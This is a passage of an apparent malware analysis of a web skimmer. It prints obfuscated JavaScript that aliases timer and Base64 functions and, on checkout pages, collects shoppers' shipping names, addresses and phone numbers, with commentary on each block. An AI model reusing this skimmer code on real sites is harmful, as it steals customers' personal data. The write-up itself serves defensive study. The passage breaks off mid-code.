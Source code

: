 ```js
}
```
<h6>The next block of code shows the declarations of the alias in using obfuscation in spilt words on arrays, a constant was used for Upcase the first letter of the function.This content the function used for sets and clear time interval, convert Base64 to Ascii (btoa) and on the other side (atob).</h6>

```js
var time=["timestamp","out"];
var interval=["int","erase",'val'];
const FormatUpCase=tab=>
{
 if(typeof tab!=="string") return'';
 return tab["charAt"](0)["toUpperCase"]()+tab["slice"](1);
};
Alias_Functions(window,"set"+FormatUpCase(time[0]["split"]("s")[0]+time[1]),"_S"); 
// Alias_Functions(window,"setTimeout"),"_S");
Alias_Functions(window,"set"+FormatUpCase(interval[0]+interval[1]["split"]("a")[0]+interval[2]),"_A"); 
// Alias_Functions(window,"setInterval"),"_A");
Alias_Functions(window,"clear"+FormatUpCase(interval[0]+interval[1]["split"]("a")[0]+interval[2]),"_CA"); 
// Alias_Functions(window,"clearInterval"),"_CA");
Alias_Functions(window,"btoa","_b");
Alias_Functions(window,"atob","_a");
```

<h6>Once this did, this declares the arrays, variables and constant for the rest of the script.</h6>

```js
var array_ID={};
var array_Data={};
var array_tmp={};
var array_storage={};
var array_1,array_header;
const success_cart="cart_created";
```

<h6>Instead of use the common method on the ReadyState method for check that the web page are correctly loaded, this uses a check that the URL content inside "checkout" reference (reference to cybersource protection). This launch four steps, here on the first two checks in using the timer event for crawl the data while a interval of the perform event (not continue action), this defines the structure of the header of the data of the next json data.</h6>

<h6>We can note by this structure used this use "stopPropagation" method for stops the event from bubbling up the event chain and avoid to perform again the operation.Once this done, merge the data, convert to JSON and storage on the localstorage of the window of the browser.</h6>

```js
if(window["location"]["href"]["indexOf"](_a("Y2hlY2tvdXQ="))>0) //Y2hlY2tvdXQ= -> "checkout"
{
 var timer=_A(function(){_S(()=>
  {
   if(!Valid_Check()&&!!document["querySelector"]("#checkout-step-shipping"))
   {
    _CA(timer);
    array_Data={};
    array_1=["anzr",'yanzr',"nqqerff1",'pvgl',"mvc","nqqvgvbany2","cubar"];
    array_header=["firstname","lastname","street[0]","city","postcode","country_id","telephone"];
    array_header["forEach"](function(head,_index)
    {
     array_ID[_index]=document["querySelector"]("#checkout-step-shipping")["querySelector"]('[name="'+head+'"]');
     if(array_ID[_index]["value"]!='')
     {
       array_Data[_index]=prepare_req(array_ID[_index]["value"]); 
```